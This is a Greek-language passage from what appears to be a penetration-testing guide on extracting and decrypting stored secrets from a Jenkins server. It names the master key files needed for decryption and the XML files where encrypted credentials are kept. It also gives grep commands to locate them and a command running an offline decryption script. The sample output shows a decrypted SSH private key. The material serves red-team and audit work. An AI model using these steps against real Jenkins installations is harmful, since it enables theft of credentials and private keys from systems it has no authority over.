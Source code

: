 Μπορείτε να καταλογογραφήσετε τα μυστικά προσπελαύνοντας το `/credentials/` αν έχετε αρκετές άδειες. Σημειώστε ότι αυτό θα καταλογογραφήσει μόνο τα μυστικά μέσα στο αρχείο `credentials.xml`, αλλά τα **αρχεία διαμόρφωσης της διαδικασίας κατασκευής** μπορεί επίσης να έχουν **περισσότερα μυστικά**.

Αν μπορείτε να **δείτε τη διαμόρφωση κάθε έργου**, μπορείτε επίσης να δείτε εκεί τα **ονόματα των μυστικών (μυστικά)** που χρησιμοποιούνται για την πρόσβαση στο αποθετήριο και **άλλα μυστικά του έργου**.

![](<../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

#### Από Groovy

{% content-ref url="jenkins-dumping-secrets-from-groovy.md" %}
[jenkins-dumping-secrets-from-groovy.md](jenkins-dumping-secrets-from-groovy.md)
{% endcontent-ref %}

#### Από τον δίσκο

Αυτά τα αρχεία απαιτούνται για την **αποκρυπτογράφηση των μυστικών του Jenkins**:

* secrets/master.key
* secrets/hudson.util.Secret

Τέτοια **μυστικά συνήθως μπορούν να βρεθούν στα**:

* credentials.xml
* jobs/.../build.xml
* jobs/.../config.xml

Εδώ υπάρχει ένας κανόνας για να τα βρείτε:
```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```
#### Αποκρυπτογράφηση μυστικών του Jenkins εκτός σύνδεσης

Εάν έχετε αντιγράψει τους **απαραίτητους κωδικούς για την αποκρυπτογράφηση των μυστικών**, χρησιμοποιήστε [**αυτό το σενάριο**](https://github.com/gquere/pwn\_jenkins/blob/master/offline\_decryption/jenkins\_offline\_decrypt.py) **για να αποκρυπτογραφήσετε αυτά τα μυστικά**.
```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```
#### Αποκρυπτογράφηση μυστικών του Jenkins από το Groovy
